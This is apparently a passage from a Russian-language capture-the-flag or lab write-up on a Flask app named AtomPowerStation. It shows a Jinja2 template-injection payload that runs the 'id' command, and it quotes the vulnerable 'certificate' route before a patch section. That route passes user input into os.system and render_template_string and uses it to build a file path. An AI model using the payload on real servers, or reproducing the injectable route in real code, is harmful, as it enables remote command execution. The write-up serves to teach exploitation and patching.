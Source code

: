 ```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Нагрузку необходимо применять относительно поля **filename**:

![ScreenShot](screenshots/atom-power-station-2.png)

![ScreenShot](screenshots/atom-power-station-3.png)

### Patch for Vuln 1

Найдем уязвимый блок кода (**main.py**):

```python
# Router: Create Certificate File
@app.route("/certificate", methods=["GET", "POST"])
@login_required
def certificate():
    if request.method == "POST":
        username = request.form.get("username")
        filename = request.form.get("filename")
        
        filepath = os.path.join("/app/storage", filename)
        
        os.system(f'echo "Certificate for {username} | File was created in AtomPowerStation system - {filename}" > {filepath}')

        return render_template_string('[+] Filename to download - use this link: <a href="/files">%s</a>' % (filename))
    else:
        return render_template("certificate.html")
```
